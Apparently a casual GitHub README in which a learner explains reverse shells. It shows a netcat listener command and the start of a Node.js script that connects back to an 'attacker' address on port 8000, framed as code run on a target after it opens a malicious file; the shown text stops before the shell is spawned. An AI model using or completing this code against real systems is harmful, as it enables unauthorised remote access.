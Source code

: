 
# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :
_
"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not works. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)



# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 



First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "_Connected_" \n "_$>_" on my terminal, the ATTACKER terminal.








